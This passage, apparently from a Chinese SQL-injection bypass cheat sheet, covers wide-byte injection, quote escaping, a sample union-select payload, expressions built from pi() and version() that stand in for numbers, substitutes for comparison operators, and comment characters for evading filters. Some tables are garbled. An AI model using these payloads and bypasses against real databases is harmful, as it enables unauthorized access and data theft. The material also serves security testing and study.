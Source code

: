 #### 0x05 引号

1.考虑宽字节注入(存在编码问题时)

2.引号逃逸(当存在两个或以上数据输入时，通过\可以转义一个单引号，随后在下一个输入框or字段中写入注入代码，最后添加注释符，这时可巧妙的避开引号闭合问题)

#### 0x06 注释

1.巧妙闭合单引号，例如：

```
select * from users where id='$id';
注入代码：?id=1' union select 1,2,'3
```

#### 0x07 数字

| 代替字符                    | 数   | 代替字符                  | 数   | 代替字符 | 数                           |      |      |
| --------------------------- | ---- | ------------------------- | ---- | -------- | ---------------------------- | ---- | ---- |
| false、!pi()                | 0    | ceil(pi()*pi())           | 10   | A        | ceil((pi()+pi())*pi())       | 20   | K    |
| true、!(!pi())              | 1    | ceil(pi()*pi())+true      | 11   | B        | ceil(ceil(pi())*version())   | 21   | L    |
| true+true                   | 2    | ceil(pi()+pi()+version()) | 12   | C        | ceil(pi()*ceil(pi()+pi()))   | 22   | M    |
| floor(pi());~~pi()          | 3    | floor(pi()*pi()+pi())     | 13   | D        | ceil((pi()+ceil(pi()))*pi()) | 23   | N    |
| ceil(pi())                  | 4    | ceil(pi()*pi()+pi())      | 14   | E        | ceil(pi())*ceil(version())   | 24   | O    |
| floor(version()) //注意版本 | 5    | ceil(pi()*pi()+version()) | 15   | F        | floor(pi()*(version()+pi())) | 25   | P    |
| ceil(version())             | 6    | floor(pi()*version())     | 16   | G        | floor(version()*version())   | 26   | Q    |
| ceil(pi()+pi())             | 7    | ceil(pi()*version())      | 17   | H        | ceil(version()*version())    | 27   | R    |
| floor(version()+pi())       | 8    | ceil(pi()*version())+true | 18   | I        | ceil(pi()*pi()*pi()-pi())    | 28   | S    |
| floor(pi()*pi())            | 9    | floor((pi()+pi())*pi())   | 19   | J        | floor(pi()*pi()*floor(pi())) | 29   | T    |

#### 0x08 等于号，大于号，小于号

等于号可以通过like绕过，大于号小于号主要使用greatest函数，strcmp函数，between and操作符代替。

#### 0x09 常见函数/符号总结

##### 注释符

| 单行注释 | 单行注释             | 单行注释 | 多行(内联)注释 |
| -------- | -------------------- | -------- | -------------- |
| `#`      | `-- x //x为任意字符` | `;%00`   | `/*任意内容*/` |

##### 常用运算符

| 运算符 | 说明          | 运算符 | 说明                                |      |            |
| ------ | ------------- | ------ | ----------------------------------- | ---- | ---------- |
| &&     | 与，同and。   | \      | \                                   |      | 或，同or。 |
| !      | 非，同not。   | ~      | 一元比特反转。                      |      |            |
| ^      | 异或，同xor。 | +      | 加，可替代空格，如`select+user()`。 |      |            |
